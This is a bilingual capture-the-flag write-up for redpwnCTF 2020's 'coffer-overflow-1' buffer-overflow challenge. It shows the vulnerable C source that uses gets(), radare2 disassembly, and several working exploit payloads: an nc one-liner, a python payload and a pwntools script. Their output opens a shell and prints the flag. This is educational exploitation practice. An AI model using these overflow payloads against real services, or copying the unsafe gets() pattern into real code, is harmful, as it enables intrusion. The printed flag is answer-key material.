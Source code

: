 # coffer-overflow-1

Author: [roerohan](https://github.com/roerohan)

avec des bouts d'autres WritesUp : https://ctftime.org/task/12109 

This is a simple buffer overflow challenge.

# Requirements

- Basic Buffer overflow.

# Source

- [coffer-overflow-1](./coffer-overflow-1).

```
The coffers keep getting stronger! You'll need to use the source, Luke.

nc 2020.redpwnc.tf 31255
```

```c
#include <stdio.h>
#include <string.h>

int main(void)
{
  long code = 0;
  char name[16];
  
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  puts("Welcome to coffer overflow, where our coffers are overfilling with bytes ;)");
  puts("What do you want to fill your coffer with?");

  gets(name);

  if(code == 0xcafebabe) {
    system("/bin/sh");
  }
}
```

# Exploitation

Check out [coffer-overflow-0](../coffer-overflow-0) for some details. You can checkout how buffer overflow works [here](https://github.com/csivitu/Incore-Sessions/blob/master/Buffer%20Overflow/Session-1.md).
<br />

Dans le source, on voit qu'il faut donner une valeur prédéfinie, `code == 0xcafebabe`. 

source: https://dunsp4rce.github.io/redpwn-2020/pwn/2020/06/26/coffer-overflow-1.html 

Outre cette valeur prédéfinie, on voit que `name` se voit allouer 16 bytes. 
<br />
We see in the code snippet that `name` is alloted 16 bytes, and `code` is alloted 8 bytes (long, 64-bit). 

Pour déterminer la quantité de brol à ajouter devant , ce writeup (https://dunsp4rce.github.io/redpwn-2020/pwn/2020/06/26/coffer-overflow-1.html) explique: 

```
From the disassembly of coffer-overflow-1, we can see that code is located at rbp - 0x8 and 
name is located at rbp - 0x20, meaning that we require 0x18 = 24 bytes of junk followed by 0xcafebabe as the input.
```
Concrètement, pour désassembler le binaire, Radare2 (https://www.megabeets.net/a-journey-into-radare-2-part-1/) (interface graphique : https://cutter.re/)
```
   $ r2 coffer-overflow-1
   [0x00400590]>
   
   [0x00400590]> afl
0x00400590    1 42           entry0
0x004005d0    4 42   -> 37   sym.deregister_tm_clones
0x00400600    4 58   -> 55   sym.register_tm_clones
0x00400640    3 34   -> 29   entry.fini0
0x00400670    1 7            entry.init0
0x00400780    1 2            sym.__libc_csu_fini
0x00400784    1 9            sym._fini
0x00400710    4 101          sym.__libc_csu_init
0x004005c0    1 2            sym._dl_relocate_static_pie
0x00400677    3 147          main
0x00400560    1 6            sym.imp.setbuf
0x00400550    1 6            sym.imp.puts
0x00400580    1 6            sym.imp.gets
0x00400570    1 6            sym.imp.system
0x00400528    3 23           sym._init


   [0x00400590]> s main
   
   [0x00400590]> pdf

```
permet de voir que: 

https://github.com/luckylex/screeshoot/blob/master/r2-1.png 
https://github.com/luckylex/screeshoot/blob/master/r2-2.png


<br />
Also, the `gets()` function is used, which does not check the size of the input. So, we can simply write past the space alloted for `name` and write into `code`, the value `0xcafebabe` in little endian.
<br />

Les différents writesup proposent ces solutions: 

https://github.com/satoki/ctf_writeups/tree/master/redpwnCTF_2020/coffer-overflow-1 

```
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca"; cat) | nc 2020.redpwnc.tf 31255
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
cat flag.txt

```
https://dunsp4rce.github.io/redpwn-2020/pwn/2020/06/26/coffer-overflow-1.html 

```
python -c "print('abcdabcdabcdabcdabcdabcd\xbe\xba\xfe\xca\x00\x00\x00\x00\ncat flag.txt\n')" > payload
nc 2020.redpwnc.tf 31255 < payload
```


We can use `pwntools` for the same. As discussed in `coffer-overflow-0`, this function will take up 32 bytes in the stack. The last 8 will store `code`, so we can write 24 random characters followed by `0xcafebabe` in little endian.

```python
import pwn

r = pwn.remote('2020.redpwnc.tf', 31255)

rep = b'a'*24 + pwn.p64(0xcafebabe)
print(rep)
r.sendline(rep)
r.interactive()
```

Run this program using `python`.

```bash
$ python cof1.py 
[+] Opening connection to 2020.redpwnc.tf on port 31255: Done
b'aaaaaaaaaaaaaaaaaaaaaaaa\xbe\xba\xfe\xca\x00\x00\x00\x00'
[*] Switching to interactive mode
Welcome to coffer overflow, where our coffers are overfilling with bytes ;)
What do you want to fill your coffer with?
$ ls
Makefile
bin
coffer-overflow-1
coffer-overflow-1.c
dev
flag.txt
lib
lib32
lib64
$ cat flag.txt
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```

The flag is:

```
flag{th1s_0ne_wasnt_pure_gu3ssing_1_h0pe}
```
